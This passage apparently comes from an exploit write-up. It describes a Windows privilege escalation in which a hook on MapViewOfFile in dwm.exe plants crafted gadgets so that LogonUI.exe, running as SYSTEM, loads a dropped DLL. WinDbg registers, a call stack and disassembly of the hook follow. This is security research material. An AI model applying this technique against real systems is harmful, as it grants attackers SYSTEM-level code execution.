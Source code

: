 The logoff action triggers execution of the `LogonUI.exe` process, which runs as a `SYSTEM` user. The `LogonUI.exe` process will communicate with the *Desktop Window Manager* `dwm.exe` process similar to any desktop GUI process, that will marshal/unmarshal Direct Composition objects between one another. The `MapViewOfFile` hook inside `dwm.exe` monitors the mapped heap content and modifies it with another set of crafted gadgets that are utilized to execute a `LoadLibraryA` call of the dropped dll, when the resource heap data is unmarshalled within the `LogonUI.exe` process.

The call stack at the moment of when `dwm.exe` processes the request from `LogonUI.exe` and calls the `MapViewOfFile` function:
```
0:002>
rax=00007ff927d74680 rbx=0000028075499a90 rcx=0000000000000e9c
rdx=0000000000000006 rsi=0000000000000000 rdi=0000000000000e9c
rip=00007ff92b11bd70 rsp=000000842b6fee68 rbp=000000842b6ff060
 r8=0000000000000000  r9=0000000000000000 r10=00000fff24fae8d0
r11=0100001000010040 r12=0000028076400078 r13=0000000000000018
r14=0000028070832940 r15=0000028076ea14e0
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
KERNELBASE!MapViewOfFile:
00007ff9`2b11bd70 e96252b7ff      jmp     00007ff9`2ac90fd7
0:002> k
Child-SP          RetAddr               Call Site
00000084`2b6fee68 00007ff9`27d746ef     KERNELBASE!MapViewOfFile
00000084`2b6fee70 00007ff9`27d746a0     dwmcore!CSharedSectionBase::MapSharedMemory+0x23
00000084`2b6feeb0 00007ff9`27ce417b     dwmcore!CSharedSectionBase::OnChanged+0x20
00000084`2b6feee0 00007ff9`27d76689     dwmcore!CResource::NotifyOnChanged+0x3b
00000084`2b6fef30 00007ff9`27d500a9     dwmcore!CCrossContainerGuestReadWriteSharedSection::ProcessUpdate+0x1d
00000084`2b6fef60 00007ff9`27d4ddf3     dwmcore!CComposition::ProcessMessage+0x21bd
00000084`2b6ff230 00007ff9`27d4bfd7     dwmcore!CComposition::ProcessCommandBatch+0xf3
00000084`2b6ff2a0 00007ff9`27d4bed4     dwmcore!CComposition::ProcessDataOnChannel+0x57
00000084`2b6ff2e0 00007ff9`27d4be4c     dwmcore!CComposition::ProcessPartitionCommand+0x64
00000084`2b6ff320 00007ff9`27d1d05e     dwmcore!CKernelTransport::DispatchBatches+0x6c
00000084`2b6ff370 00007ff9`27d1b55f     dwmcore!CComposition::PreRender+0x23e
00000084`2b6ff580 00007ff9`27d18f94     dwmcore!CPartitionVerticalBlankScheduler::ProcessFrame+0x55f
00000084`2b6ff8a0 00007ff9`27cd3739     dwmcore!CPartitionVerticalBlankScheduler::ScheduleAndProcessFrame+0xb4
00000084`2b6ffa20 00007ff9`2d267614     dwmcore!CConnection::RunCompositionThread+0x21d
00000084`2b6ffab0 00007ff9`2d3a26a1     KERNEL32!BaseThreadInitThunk+0x14
00000084`2b6ffae0 00000000`00000000     ntdll!RtlUserThreadStart+0x21
0:002> u 00007ff9`2ac90fd7
00007ff9`2ac90fd7 ff2500000000    jmp     qword ptr [00007ff9`2ac90fdd]
00007ff9`2ac90fdd 1022            adc     byte ptr [rdx],ah
00007ff9`2ac90fdf 437680          jbe     00007ff9`2ac90f62
00007ff9`2ac90fe2 0200            add     al,byte ptr [rax]
00007ff9`2ac90fe4 0000            add     byte ptr [rax],al
00007ff9`2ac90fe6 0000            add     byte ptr [rax],al
00007ff9`2ac90fe8 0000            add     byte ptr [rax],al
00007ff9`2ac90fea 0000            add     byte ptr [rax],al
0:002> u poi(00007ff9`2ac90fdd)
00000280`76432210 4053            push    rbx
00000280`76432212 4881ecb0000000  sub     rsp,0B0h
00000280`76432219 488b8424e0000000 mov     rax,qword ptr [rsp+0E0h]
00000280`76432221 ba06000000      mov     edx,6
00000280`76432226 4889442420      mov     qword ptr [rsp+20h],rax
00000280`7643222b ff15e7270500    call    qword ptr [00000280`76484a18]
00000280`76432231 833dcc27050000  cmp     dword ptr [00000280`76484a04],0
00000280`76432238 488bd8          mov     rbx,rax
0:002> u poi(00000280`76484a18) l3
00007ff9`2ac90fc0 4883ec48        sub     rsp,48h
00007ff9`2ac90fc4 834c2430ff      or      dword ptr [rsp+30h],0FFFFFFFFh
00007ff9`2ac90fc9 ff2500000000    jmp     qword ptr [00007ff9`2ac90fcf]
```